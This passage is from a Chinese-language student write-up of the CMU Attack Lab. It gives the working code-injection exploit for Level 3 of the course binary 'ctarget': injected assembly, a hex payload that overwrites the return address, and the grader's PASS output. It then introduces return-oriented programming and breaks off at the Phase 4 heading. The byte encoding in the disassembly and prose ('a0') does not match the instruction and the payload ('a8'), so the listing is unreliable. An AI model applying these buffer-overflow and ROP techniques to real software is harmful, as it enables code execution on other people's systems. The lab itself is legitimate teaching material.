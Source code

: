 ```
movl $0x5561dca8,%edi
pushq $0x4018fa
ret
```

后续步骤和前述一样，我们生成其汇编代码：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf a0 dc 61 55       	mov    $0x5561dca8,%edi
   5:	68 fa 18 40 00       	pushq  $0x4018fa
   a:	c3                   	retq
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
```

这次我们不把汇编代码插入`buf + 8`了，因为没有意义，我们直接将其插入汇编代码开头即可。最后的 8 个字节返回地址改为`0x5561dc78`。其前面的内容为`bf a0 dc 61 55 68 fa 18 40 00 c3`，共 11 个字节。插入 29 个`nop`(0x90)。在插入 8 个字节的返回地址（`0x000000005561dc78`）。最后放入 9 个字节的字符串`0x35 0x39 0x62 0x39 0x39 0x37 0x66 0x61 0x00`。最后结果如下：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:BF A8 DC 61 55 68 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

通过！

## Part II: Return oriented Programming attack

`rtarget`的攻击要比`ctarget`难一些，因为：

1. 开启了栈随机化，程序的地址难以预测
2. 开启了 Non-executable 位，导致我们插入的代码部分难以执行

因此，我们使用一种新的方法：return oriented programming attacks。它的核心在于利用已有的程序，而不是注入代码。每个 gadget 是一个代码段，每个 gadget 的最后都是`ret`指令（编码`c3`），将这个自己和其前面的部分字节组合起来，可以合成我们想要的指令。此外，针对 x86_64，我们不一定要利用整条指令，有的时候一条指令的一部分字节又可以组成另一条指令。所有 gadget 的地址被压在栈上，每次调用`ret`之后就会返回到下一个 gadget 的地址。

### Phase 4
